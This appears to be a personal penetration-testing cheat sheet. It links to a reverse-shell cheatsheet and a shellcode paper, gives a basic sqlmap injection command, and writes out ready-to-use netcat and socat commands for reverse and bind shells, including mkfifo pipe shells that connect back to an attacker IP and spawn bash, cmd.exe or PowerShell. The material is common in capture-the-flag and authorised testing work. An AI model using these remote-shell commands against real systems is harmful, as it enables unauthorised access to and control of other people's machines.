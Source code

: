 [PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Introduction to writing shell code](https://www.exploit-db.com/papers/13224)

[Ciphey](https://github.com/Ciphey/Ciphey)

### sqlmap:

`sqlmap -u <target-URL>`

https://medium.com/@cuncis/the-ultimate-sqlmap-tutorial-master-sql-injection-and-vulnerability-assessment-4babdc978e7d

### Netcat:
Reverse Shell:
```
    A: nc -lnvp <port_number>

    T: nc <local_ip> <port_number> -e /bin/bash
```
Bind Shell:
```
    T: nc -lnvp <port_number> -e "cmd.exe"

    A: nc <local_ip> <port_number>
```
Other things:
```
    Listener: mkfifo /tmp/f; nc -lvnp <port> < /tmp/F | /bin/sh >/tmp/f 2>&1; rm /tmp/f

    Rev-Shell: mkfifo /tmp/f; nc <attack_ip> <port> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f 
```
### Socat:

Reverse Shell (normal):
```
unstable version

    A: socat TCP-L:<port> -

    T-Linux: socat TCP:<attack_ip>:<port_number> EXEC:"bash -li"

    T-Windows: socat TCP:<attack_ip>:<port_number> EXEC:powershell.exe,pipes

stable(only for Linux Target with socat installed/possible to upload precompiled binary aswell)

    A: socat TCP-L:<port_number> FILE:`tty`,raw,echo=0

    T: socat TCP:<attack_ip>:<port_number> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
Bind Shell (normal):
```
unstable version

    T-Linux: socat TCP-L:<port_number> EXEC:"bash -li"

    T-Windows: socat TCP-L:<port_number> EXEC:powershell.exe;pipes

    A: socat TCP:<target_ip>:<target_port> -
```
